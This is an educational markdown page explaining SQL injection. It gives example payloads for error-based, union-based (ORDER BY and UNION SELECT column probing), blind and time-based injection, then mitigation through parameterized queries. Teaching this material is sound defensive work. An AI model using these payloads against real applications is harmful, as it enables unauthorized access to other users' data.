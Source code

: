 ```yaml
---
description: All kinds and forms of SQLi for discussion and questioning
---
```


# SQL Injection (SQLi)

SQL Injection is a form of database attack to query/modify data from the database. Attackers can obtain results that may belong to other users. SQLi can be extended to compromise backend server or cause denial of service.



{% embed url="https://portswigger.net/web-security/sql-injection" %}
Fantastic Explanation By PortSwigger
{% endembed %}



### Attack Types

* Error Based

Cannot see query output but can see errors, make use of errors to formulate exploit

```bash
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```

* Union Based

Commonly using Order By / Group By with Union

```bash
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

* Blind Based

No output or errors but contents on webpage may differ depending if query is **true or false**

```basic
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```

* Timed Based

Test if query response takes longer than normal to load the content

```bash
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```



### Mitigation

#### Parameterized Query

By using a prepared statement rather than concatenation of strings, SQLi will be greatly reduced to prevent possible attacks from untrusted user input

```basic
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

A step further in using prepared statement would be to use stored procedures that hold fully prepared statements within the database to query itself without the need of user input

## Author

- [Zheng Jie](https://github.com/Bread7)